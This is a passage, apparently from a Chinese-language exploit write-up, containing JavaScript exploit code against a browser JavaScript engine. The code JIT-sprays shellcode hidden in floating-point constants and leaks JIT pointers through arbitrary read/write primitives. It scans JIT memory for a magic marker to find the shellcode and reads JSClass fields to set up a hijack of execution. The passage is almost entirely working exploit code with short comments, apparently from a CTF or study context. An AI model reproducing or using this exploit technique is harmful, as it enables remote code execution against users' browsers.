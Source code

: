 >现在我们可以利用任意地址读写去控制执行流来执行 mmap 使得有内存来执行我们的 shellcode, 利用 JSClass 对象关联链很任意就可以做到

```javascript
//用刚刚我们实现的函数来进行改写指定地址内容

//保存mmap_shellcode,再利用大循环强制jit把我们的shellcode编译为字节码
buf[7].func = function func() {
  const magic = 4.183559446463817e-216;

  const g1 = 1.4501798452584495e-277
  const g2 = 1.4499730218924257e-277
  const g3 = 1.4632559875735264e-277
  const g4 = 1.4364759325952765e-277
  const g5 = 1.450128571490163e-277
  const g6 = 1.4501798485024445e-277
  const g7 = 1.4345589835166586e-277
  const g8 = 1.616527814e-314
}
for (i=0;i<100000;i++) 
  buf[7].func()

slots_ptr = read(slots)   //读取slots属性的地址
func_ptr = read(slots_ptr)  //通过读取slots的内容来读取func_ptr对象
//通过shape链的机制，我们知道添加新属性的时候地址会通过上一个shape链来储存，此时新添加的属性访上一个shpae属性来向上一个slots属性处添加一个slots对象
//所以此时slots的内容就是刚刚添加的func属性的地址
add(func_ptr,new data("0x30"))  //偏移0x30就是jit_ptr地址
jit_ptr=read(func_ptr);  
jitaddr = read(jit_ptr);        //泄露jit的指针,此时就可以根据这个指针去jit里面找我们编译好的shellcode的地址
sub(jitaddr,new data("0xff0"))    //jit基地址

for(j=0;j<3;j++){
  asdf = read_n(jitaddr,new data("0xff0"))
  //每次读取0xfff处的地址,遍历整个jit区域直至匹配到我们写入的magic value
  offset=-1;
  for (var i =0;i<0xff0;i++)
  {
    if (asdf[i]==0x37 && asdf[i+1]==0x13 && asdf[i+2]==0x37 && asdf[i+3]==0x13 && asdf[i+4]==0x37 && asdf[i+5]==0x13 && asdf[i+6]==0x37 && asdf[i+7]==0x13){
      offset=i;
      break
    }
  }

  //找到地址时退出
  if(offset!=-1)
    break

  jitaddr.reverse()
  add(jitaddr,new data("0xff0"))  //jit复原
  jitaddr.reverse()
}
offset = offset+8+6
add(jitaddr,new data(offset.toString(16)))  //jit的基地址加上偏移就是我们的shellcode的地址


aa = read(group)      //读取group属性的地址
grp_ptr = read(aa)   //通过读取grop的内容来读取clasp_ pointer
jsClass = read_n(grp_ptr,new data("0x30")) //偏移0x30的地址就是JSClass对象的地址
//获取原JSClass对象的属性
name = jsClass.slice(0,8)
flags = jsClass.slice(8,16)
cOps = jsClass.slice(16,24)
spec = jsClass.slice(24,32)
ext = jsClass.slice(40,48)
```